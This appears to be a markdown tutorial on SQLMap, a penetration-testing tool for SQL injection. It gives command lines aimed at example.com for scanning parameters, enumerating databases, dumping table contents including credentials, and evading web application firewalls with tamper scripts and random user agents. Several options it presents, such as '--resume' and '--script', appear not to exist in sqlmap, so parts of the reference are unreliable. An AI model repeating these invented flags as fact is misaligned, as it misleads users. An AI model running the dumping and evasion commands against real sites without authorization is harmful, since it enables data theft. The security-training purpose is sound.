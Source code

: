 # 🗺️ SQLMap

## In-Depth Guide

Welcome to the comprehensive guide on SQLMap, a powerful open-source penetration testing tool for detecting and exploiting SQL injection vulnerabilities. SQLMap is widely used by security professionals to automate the process of identifying and exploiting SQL injection flaws in web applications.

<figure><img src="https://upload.wikimedia.org/wikipedia/commons/4/4f/Sqlmap_logo.png" alt=""><figcaption></figcaption></figure>

### Introduction to SQLMap

#### What is SQLMap?

SQLMap is a powerful, open-source tool designed to automate the process of detecting and exploiting SQL injection vulnerabilities in web applications. It provides penetration testers and security professionals with a comprehensive set of features for identifying, assessing, and exploiting potential weaknesses related to SQL injection.

#### Key Features and Capabilities

* Automated detection of SQL injection vulnerabilities.
* Support for various database management systems (DBMS), including MySQL, PostgreSQL, MSSQL, and others.
* Capability to perform both time-based and error-based blind SQL injection attacks.
* Support for union-based and stacked queries.
* Database fingerprinting and version detection.
* Exploitation of identified vulnerabilities to extract data from databases.

### Installation

#### Downloading and Installing SQLMap

To get started with SQLMap, you can download the latest version from the official GitHub repository:

```bash
git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
```

#### Basic Setup and Configuration

Before using SQLMap, it's crucial to understand the basic configuration options. This includes setting the target URL, specifying parameters, and configuring any additional options. A typical command might look like this:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --dbs
```

### Basic Usage

#### Scanning a Target URL

The most basic usage of SQLMap involves scanning a target URL for SQL injection vulnerabilities. The `-u` option is used to specify the target URL:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --risk=3 --level=5
```

<figure><img src="https://media.geeksforgeeks.org/wp-content/uploads/explained_columns.png" alt=""><figcaption></figcaption></figure>

**Specifying Injection Points and Parameters**

SQLMap allows you to specify injection points and parameters manually. For example, to target a specific parameter, you can use the `-p` option:

```bash
python sqlmap.py -u "http://example.com/index.php" -p id --dbs
```

### Advanced Features

#### Session Management and Stateful Testing

SQLMap supports session management, allowing you to resume an interrupted scan or continue from a previously saved state. The `--resume` option is used for this purpose:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --cookie="PHPSESSID=12345" --resume=session.txt
```

#### Tampering with HTTP Requests and Responses

To evade detection or modify requests and responses, SQLMap provides the `--tamper` option. Custom tamper scripts can be used to modify data before it's sent to the server or after it's received:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --tamper=space2comment
```

### Database Enumeration

#### Extracting Information about the Database

Once SQL injection vulnerabilities are identified, SQLMap allows you to extract valuable information about the database, including its version and user privileges:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --banner
```

#### Retrieving Databases, Tables, and Columns

SQLMap supports database enumeration, allowing you to retrieve a list of databases, tables, and columns within the target system:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --dbs
```

### Exploitation

#### Exploiting SQL Injection Vulnerabilities

Once SQLMap identifies a vulnerable parameter, you can proceed to exploit it to extract data from the database. The `--dump` option is commonly used for this purpose:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --dump
```

#### Dumping Data from Databases

To dump specific data, such as usernames and passwords, you can use the `--columns` and `--dump` options:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --columns --dump
```

### Detection Evasion Techniques

#### Techniques to Evade WAFs

SQLMap provides techniques to evade detection by Web Application Firewalls (WAFs). The `--tamper` option can be utilized with specific tamper scripts designed for evasion:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --tamper=between
```

#### Anonymizing Requests

To anonymize requests and avoid blocking, SQLMap allows you to use the `--random-agent` option, which selects a random user-agent for each HTTP request:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --random-agent
```

### Automation and Scripting

#### Creating and Using Custom Scripts

SQLMap supports custom scripts for automation and specific testing scenarios. Custom scripts can be created and utilized with the `--script` option:

```bash
python sqlmap.py -u "http://example.com/index.php?id=1" --script=my_custom_script.py
```
